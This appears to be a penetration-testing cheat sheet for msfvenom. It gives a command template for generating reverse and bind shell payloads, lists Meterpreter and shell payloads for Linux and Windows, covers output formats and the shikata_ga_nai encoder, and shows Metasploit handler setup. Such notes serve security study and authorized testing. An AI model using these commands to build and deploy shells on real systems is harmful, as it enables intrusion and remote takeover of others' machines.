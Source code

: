 ```yaml
---
layout: default
title: MSFVenom
---
```


# MSFvenom
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## General Reverse Shell Format
```shell
msfvenom -p <payload> LHOST=<local IP> LPORT=<local port> [-f <format>] [-e <encoder>] [-b <bad chars>] [-a <arch>] [--platform <platform>]
```
- For bind shells replace `LHOST=<local IP>` with `RHOST=<remote IP>`
- `-b` bad chars follows format such as `"\x00\x0D"`
- `EXITFUNC=<exit technique>`
    - `process` use where master process restarts on exit; use with multi/handler
    - `thread` *(default)*; use where shellcode runs in sub-thread; exit results in working system
    - `seh` use where a structured exception handler (SEH) restarts the thread or process on error
    - `none`

---

## Payloads
```shell
msfvenom -l payloads
```

### Linux
```shell
linux/x64/meterpreter/bind_tcp            # Bind Meterpreter (staged)
linux/x64/meterpreter_bind_tcp            # Bind Meterpreter
linux/x64/meterpreter/reverse_tcp         # Reverse Meterpreter (staged)
linux/x64/meterpreter_reverse_tcp         # Reverse Meterpreter

linux/x64/shell/bind_tcp                  # Bind shell (staged)
linux/x64/shell_bind_tcp                  # Bind shell
linux/x64/shell/reverse_tcp               # Reverse shell (staged)
linux/x64/shell_reverse_tcp               # Reverse shell
```
- `x86` also available

### Windows
```shell
windows/x64/meterpreter/reverse_tcp       # Reverse Meterpreter (staged)
windows/x64/meterpreter_reverse_tcp       # Reverse Meterpreter
windows/x64/meterpreter/bind_tcp          # Bind Meterpreter (staged)
windows/x64/meterpreter_bind_tcp          # Bind Meterpreter

windows/x64/shell/reverse_tcp             # Reverse shell (staged)
windows/x64/shell_reverse_tcp             # Reverse shell
windows/x64/shell/bind_tcp                # Bind shell (staged)
windows/x64/shell_bind_tcp                # Bind shell

windows/x64/powershell_bind_tcp           # Bind PowerShell
windows/x64/powershell_reverse_tcp        # Reverse PowerShell

windows/x64/exec                          # Execute command; use CMD=<cmd>
```
- Remove `/x64` for x86

---

## Formats
```shell
msfvenom -l formats
```
### Executable
```shell
asp, aspx, dll, elf, exe, jar, jsp, msi, psh, vba, vbs, war
```

### Transform
```shell
bash, c, csharp, dword, hex, java, js_be, js_le, perl, powershell, python, raw, ruby, vbapplication, vbscript
```

---

## Encoders
```shell
msfvenom -l encoders
```
```shell
x86/shikata_ga_nai                        # Polymorphic XOR Additive Feedback Encoder
```
- `-i` for number of iterations

---

## Metasploit Handler
```shell
use exploit/multi/handler
set PAYLOAD <payload>
set RHOST <remote IP>
set LHOST <local IP>
set LPORT <local port>
run
```